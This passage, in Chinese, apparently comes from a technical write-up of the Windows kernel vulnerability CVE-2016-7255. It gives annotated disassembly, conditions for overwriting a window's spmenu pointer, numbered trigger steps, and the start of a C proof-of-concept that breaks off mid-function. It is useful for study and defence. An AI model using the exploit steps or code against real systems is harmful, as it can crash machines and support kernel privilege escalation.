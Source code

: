 如果nIndex为-12，继续判断tagWND->style的最高位是否为0x40，如果是，则将dwNewLong赋值给窗口的spmenu：  
```
.text:BF8BBA1C loc_BF8BBA1C:                           
.text:BF8BBA1C                 mov     edi, [ebp+tagWND]
.text:BF8BBA1F                 mov     al, [edi+23h]
.text:BF8BBA22                 and     al, 0C0h
.text:BF8BBA24                 cmp     al, 40h
.text:BF8BBA26                 jnz     short loc_BF8BBA33
.text:BF8BBA28                 mov     eax, [ebp+dwNewLong]
.text:BF8BBA2B                 mov     ebx, [edi+78h]
.text:BF8BBA2E                 mov     [edi+78h], eax  ; 将dwNewLong赋值给tagWND->spmenu
.text:BF8BBA31                 jmp     short loc_BF8BBA88
```  
  
  
根据以下定义可以知道，当对带有WS_CHILD标记的窗口调用SetWindowLong的时候，如果第二个参数传入GWL_ID，第三个参数的值就会写入到窗口的spmenu中：  
```
#define WS_CHILD            0x40000000L
#define GWL_ID              (-12)
```  
  
  
因此，用户可以修改窗口的spmenu，如果将它修改为一个非法的地址，再调用xxxNextWindow函数，就会因为对一个非法地址进行或运算导致BSOD的产生。  
  
  
对上述内容的总结如下：  
  
漏洞函数xxxNextWindow的执行流程是：1) 获取当前活跃窗口;2) 从当前活跃窗口中获取子窗口;3) 对子窗口的spmenu成员0x14所指的内存地址进行或运算。  
  
想要在用户层修改窗口的spmenu成员，要满足的条件：1) 被修改的窗口具有WS_CHILD标记. 2) 调用SetWindowLong的时候第二个参数指定为GWL_ID。  
##   
## 2.漏洞触发  
  
  
xxxNextWindow函数需要通过发送Alt + Esc的按键信息来调用，因此漏洞触发的步骤如下：  
  
① 获取桌面窗口句柄作为父窗口。  
  
② 创建一个用来触发漏洞的攻击窗口，该窗口的父窗口需要指定为桌面窗口。  
  
③ 设置攻击窗口带有WS_CHILD标记，通过SetWindowLong修改攻击窗口的spmenu，将其指向非法内存地址。  
  
④ 将桌面窗口置于最顶层，即将其变成活跃窗口。  
  
⑤ 模拟Alt + Esc按键调用xxxNextWindow函数。  
  
  
相应的POC代码如下：  
```
BOOL POC_CVE_2016_7255()
{
    BOOL bRet = TRUE;
    HWND hwnd = NULL, hDesktop = NULL;
    WNDCLASSEX wc = { 0 };
    char *pClassName = "POC";

    // 获取父窗口
    hDesktop = GetDesktopWindow();
    if (!hDesktop)
    {
        bRet = FALSE;
        ShowError("GetDesktopWindow", GetLastError());
        goto exit;
    }

    memset(&wc, 0, sizeof(wc));
    wc.cbSize = sizeof(wc);
    wc.hInstance = GetModuleHandle(NULL);
    wc.lpfnWndProc = DefWindowProc;
    wc.lpszClassName = pClassName;

```